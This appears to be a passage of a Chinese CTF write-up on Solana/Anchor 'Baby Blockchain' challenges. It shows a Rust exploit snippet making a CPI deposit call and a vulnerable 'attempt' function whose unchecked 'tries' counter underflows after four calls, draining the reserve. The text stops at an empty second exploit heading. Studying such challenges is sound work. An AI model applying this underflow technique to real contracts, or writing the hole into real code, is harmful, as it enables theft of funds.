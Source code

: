 利用：

```rust
let deposit_accounts = chall::cpi::accounts::Deposit {
            config: ctx.accounts.config.to_account_info(),
            reserve: ctx.accounts.reserve.to_account_info(),
            user_account: ctx.accounts.user_account.to_account_info(),
            mint: ctx.accounts.mint.to_account_info(),
            admin: ctx.accounts.admin.to_account_info(),
            user: ctx.accounts.user.to_account_info(),
            token_program: ctx.accounts.token_program.to_account_info(),
            system_program: ctx.accounts.system_program.to_account_info(),
            rent: ctx.accounts.rent.to_account_info(),
        };
        let cpi_deposit = CpiContext::new(ctx.accounts.chall.to_account_info(), deposit_accounts);
        chall::cpi::deposit(cpi_deposit, 200)?;
```
       
### Baby Blockchain 2:

```rust
pub fn attempt(ctx: Context<Attempt>) -> Result<()> {
    let record = &mut ctx.accounts.record;
    msg!("[CHALL] attempt.tries {}", record.tries);
    if record.tries > 0 {
        let reserve_bump = [*ctx.bumps.get("reserve").unwrap()];
        let signer_seeds = [
            b"RESERVE",
            reserve_bump.as_ref()
        ];
        let signer = &[&signer_seeds[..]];

        let withdraw_ctx = CpiContext::new_with_signer(
            ctx.accounts.token_program.to_account_info(),
            Transfer {
                from: ctx.accounts.reserve.to_account_info(),
                to: ctx.accounts.user_account.to_account_info(),
                authority: ctx.accounts.reserve.to_account_info()
            },
            signer
        );
        token::transfer(withdraw_ctx, record.tries as u64)?;
    }


    record.tries -= 1;

    Ok(())
}
```
每次调用attempt会 record.tries -= 1 初始化给予3 tries，连续四次调用溢出

利用：
